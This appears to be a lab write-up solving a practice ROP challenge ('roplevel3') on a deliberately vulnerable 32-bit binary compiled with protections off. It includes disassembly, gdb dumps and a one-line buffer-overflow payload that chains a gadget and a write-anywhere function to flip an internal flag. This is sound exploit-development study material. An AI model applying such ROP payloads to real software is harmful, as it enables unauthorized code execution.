 ### How to compile binary (disable ASLR & PIE):

```
echo 2 | sudo tee /proc/sys/kernel/randomize_va_space
gcc roplevel3.c -o roplevel3 -fno-stack-protector -m32 -Wl,-z,norelro -mpreferred-stack-boundary=2 -no-pie
```

### Analysis

```
pwndbg> disas validate
Dump of assembler code for function validate:
   0x0804928b <+0>:	push   ebp
   0x0804928c <+1>:	mov    ebp,esp
   0x0804928e <+3>:	push   ebx
   0x0804928f <+4>:	call   0x80490f0 <__x86.get_pc_thunk.bx>
   0x08049294 <+9>:	add    ebx,0x2244
   0x0804929a <+15>:	lea    eax,[ebx-0x13d8]
   0x080492a0 <+21>:	push   eax
   0x080492a1 <+22>:	push   DWORD PTR [ebp+0x8]
   0x080492a4 <+25>:	call   0x8049030 <strcmp@plt>
   0x080492a9 <+30>:	add    esp,0x8
   0x080492ac <+33>:	test   eax,eax
   0x080492ae <+35>:	jne    0x80492b7 <validate+44>
   0x080492b0 <+37>:	call   0x80491b6 <func>
   0x080492b5 <+42>:	jmp    0x804931b <validate+144>
   0x080492b7 <+44>:	lea    eax,[ebx-0x13ba]
   0x080492bd <+50>:	push   eax
   0x080492be <+51>:	push   DWORD PTR [ebp+0x8]
   0x080492c1 <+54>:	call   0x8049030 <strcmp@plt>
   0x080492c6 <+59>:	add    esp,0x8
   0x080492c9 <+62>:	test   eax,eax
   0x080492cb <+64>:	jne    0x80492ef <validate+100>
   0x080492cd <+66>:	mov    eax,DWORD PTR [ebx+0x34]
   0x080492d3 <+72>:	test   eax,eax
   0x080492d5 <+74>:	jne    0x80492e8 <validate+93>
   0x080492d7 <+76>:	lea    eax,[ebx-0x139c]
   0x080492dd <+82>:	push   eax
   0x080492de <+83>:	call   0x8049050 <puts@plt>
   0x080492e3 <+88>:	add    esp,0x4
   0x080492e6 <+91>:	jmp    0x804931b <validate+144>
   0x080492e8 <+93>:	call   0x80491db <func_internal>
   0x080492ed <+98>:	jmp    0x804931b <validate+144>
=> 0x080492ef <+100>:	lea    eax,[ebx-0x13b0]
   0x080492f5 <+106>:	push   eax
   0x080492f6 <+107>:	push   DWORD PTR [ebp+0x8]
   0x080492f9 <+110>:	call   0x8049030 <strcmp@plt>
   0x080492fe <+115>:	add    esp,0x8
   0x08049301 <+118>:	test   eax,eax
   0x08049303 <+120>:	jne    0x804930c <validate+129>
   0x08049305 <+122>:	push   0x0
   0x08049307 <+124>:	call   0x8049070 <exit@plt>
   0x0804930c <+129>:	lea    eax,[ebx-0x1368]
   0x08049312 <+135>:	push   eax
   0x08049313 <+136>:	call   0x8049050 <puts@plt>
   0x08049318 <+141>:	add    esp,0x4
   0x0804931b <+144>:	nop
   0x0804931c <+145>:	mov    ebx,DWORD PTR [ebp-0x4]
   0x0804931f <+148>:	leave  
   0x08049320 <+149>:	ret    
End of assembler dump.
```

```
gdb-peda$ x $ebx+0x34 // break at validate function after "0x0804928f <+4>:	call   0x80490f0 <__x86.get_pc_thunk.bx>"
0x804b55c <internal_mode>:      0x00000000
gdb-peda$ p (int) internal_mode
$1 = 0x0
```

>0x080492ae <+35>:	jne    0x80492b7 <validate+44>
>
>checks if the number is 1, 
>
>if it is call func then ret and jmp to validate+144 (end)
>
>if it is not jmp to validate+44 and continue
>
> </br>
>0x080492cb <+64>:	jne    0x80492ef <validate+100> 
>
>Checks if the number is 2,
>
>if it is continue
>
>if it is not jmp to 100
>
> </br>
>0x080492d5 <+74>:	jne    0x80492e8 <validate+93>
>
>check if eax is not 0
>
>if eax is not 0 then execute internal_func
>
>if eax is 0 then jmp to validate+144 (end)
>
> </br>
>0x08049303 <+120>:	jne    0x804930c <validate+129>
>
>check if number is 3
>
>if it is 3 then continue and eventually exit
>
>if it is not 3 then continue to validate+129 then to validate+144 (end)

### Answer:

`(python2 -c "print('ZZZZYYYYXXXX' + '\x28\xb5\x04\x08' + 'BBBB' + '\x34\x93\x04\x08' + 'AAAA' + '\x21\x93\x04\x08' + '\x45\x93\x04\x08')" ; cat) | ./roplevel3`

- Need to make sure that `eax` is not 0 which is from `[ebx+0x34]` hence execute BoF to overwrite return pointer and execute write_anywhere() function. This function will move whatever is in `ecx` into `[ebx+0x34]` which is the location of our internal_mode variable. In this case, 'BBBB' is what will be written to `ecx` in our buffer overflow.

- Total padding before overwriting return pointer: 5 * "AAAA"

- 0x08049334: Address of gadget to push ecx to stack. This pops "BBBB" from stack to ecx. Somehow, before the actual `pop ecx` instruction is executed, the top of the stack is as follows:

   ```
   gdb-peda$
   [----------------------------------registers-----------------------------------]
   EAX: 0x804b528 --> 0x804b43c --> 0x1
   EBX: 0x804b528 --> 0x804b43c --> 0x1
   ECX: 0xffffffff
   EDX: 0xffffffff
   ESI: 0xf7fbd000 --> 0x1e7d6c
   EDI: 0xf7fbd000 --> 0x1e7d6c
   EBP: 0xffffd61c ("BBBBAAAA!\223\004\bE\223\004\b")
   ESP: 0xffffd61c ("BBBBAAAA!\223\004\bE\223\004\b")
   EIP: 0x8049341 (<gadget+13>:    pop    ecx)
   EFLAGS: 0x10216 (carry PARITY ADJUST zero sign trap INTERRUPT direction overflow)
   [-------------------------------------code-------------------------------------]
      0x8049335 <gadget+1>:        mov    ebp,esp
      0x8049337 <gadget+3>:        call   0x80493ad <__x86.get_pc_thunk.ax>
      0x804933c <gadget+8>:        add    eax,0x21ec
   => 0x8049341 <gadget+13>:       pop    ecx
      0x8049342 <gadget+14>:       nop
      0x8049343 <gadget+15>:       pop    ebp
      0x8049344 <gadget+16>:       ret
      0x8049345 <main>:    push   ebp
   [------------------------------------stack-------------------------------------]
   0000| 0xffffd61c ("BBBBAAAA!\223\004\bE\223\004\b")
   0004| 0xffffd620 ("AAAA!\223\004\bE\223\004\b")
   0008| 0xffffd624 --> 0x8049321 (<write_anywhere>:       push   ebp)
   0012| 0xffffd628 --> 0x8049345 (<main>: push   ebp)
   0016| 0xffffd62c --> 0xffffd600 --> 0x804939a (<main+85>:       add    esp,0x4)
   0020| 0xffffd630 --> 0xf7fbd000 --> 0x1e7d6c
   0024| 0xffffd634 --> 0x0
   0028| 0xffffd638 --> 0xffffd698 --> 0xffffd6b4 --> 0xffffd7d8 ("/home/ernest/offsec-prep/osed-prep/BillyEllis/ROPLevel3/roplevel3")
   [------------------------------------------------------------------------------]
   Legend: code, data, rodata, value
   0x08049341 in gadget ()
   gdb-peda$
   ```

- When returning from gadget, the top of stack points to the address after "AAAA" which is write_anywhere, which is what we want

   ```
   gdb-peda$
   [----------------------------------registers-----------------------------------]
   EAX: 0x804b528 --> 0x804b43c --> 0x1
   EBX: 0x804b528 --> 0x804b43c --> 0x1
   ECX: 0x42424242 ('BBBB')
   EDX: 0xffffffff
   ESI: 0xf7fbd000 --> 0x1e7d6c
   EDI: 0xf7fbd000 --> 0x1e7d6c
   EBP: 0x41414141 ('AAAA')
   ESP: 0xffffd624 --> 0x8049321 (<write_anywhere>:        push   ebp)
   EIP: 0x8049344 (<gadget+16>:    ret)
   EFLAGS: 0x10216 (carry PARITY ADJUST zero sign trap INTERRUPT direction overflow)
   [-------------------------------------code-------------------------------------]
      0x8049341 <gadget+13>:       pop    ecx
      0x8049342 <gadget+14>:       nop
      0x8049343 <gadget+15>:       pop    ebp
   => 0x8049344 <gadget+16>:       ret
      0x8049345 <main>:    push   ebp
      0x8049346 <main+1>:  mov    ebp,esp
      0x8049348 <main+3>:  push   ebx
      0x8049349 <main+4>:  sub    esp,0xc
   [------------------------------------stack-------------------------------------]
   0000| 0xffffd624 --> 0x8049321 (<write_anywhere>:       push   ebp)
   0004| 0xffffd628 --> 0x8049345 (<main>: push   ebp)
   0008| 0xffffd62c --> 0xffffd600 --> 0x804939a (<main+85>:       add    esp,0x4)
   0012| 0xffffd630 --> 0xf7fbd000 --> 0x1e7d6c
   0016| 0xffffd634 --> 0x0
   0020| 0xffffd638 --> 0xffffd698 --> 0xffffd6b4 --> 0xffffd7d8 ("/home/ernest/offsec-prep/osed-prep/BillyEllis/ROPLevel3/roplevel3")
   0024| 0xffffd63c --> 0x0
   0028| 0xffffd640 --> 0xf7ffd000 --> 0x2bf24
   [------------------------------------------------------------------------------]
   Legend: code, data, rodata, value
   0x08049344 in gadget ()
   gdb-peda$
   ```

- 0x804b528: Base location of the `internal_mode` variable

   ```
   gdb-peda$ x 0x0804b528
   0x804b528:      0x0804b43c
   gdb-peda$ x 0x0804b528 + 0x34
   0x804b55c <internal_mode>:      0x00000000
   ```

- Setting 0x804b528 right after 12 bytes of padding will ensure that the `ebx` register will contain the base address of the `internal_mode` variable and adding the 52 decimal or 34 hexadcimal value will get us the actual location of `internal_mode` variable which will then allow us to write to that address with whatever is from `ecx` which should be "BBBB"

- 0x8049345: Start of main function, which is where we want to return to at the end of our rop chain

### Notes

For this exploit to work, we need to know the location of the internal_mode variable and adjust our write_anywhere gadget to allow us to write to it. In this case, from debugging, we know that given that ASLR and PIE is disabled, the base address is 0x0804b528. To obtain this value, but a breakpoint before the `0x080492cd <+66>:	mov    eax,DWORD PTR [ebx+0x34]` instruction and print the value of `ebx` or where ever the program references to get the value of internal_mode.

### References

https://stackoverflow.com/questions/19398216/why-is-there-a-expecting-comma-error-in-y86-code

https://stackoverflow.com/questions/9617877/assembly-jg-jnle-jl-jnge-after-cmp

https://stackoverflow.com/questions/6261392/printing-all-global-variables-local-variables

https://stackoverflow.com/questions/52024529/whats-the-difference-between-nexti-and-stepi-in-gdb
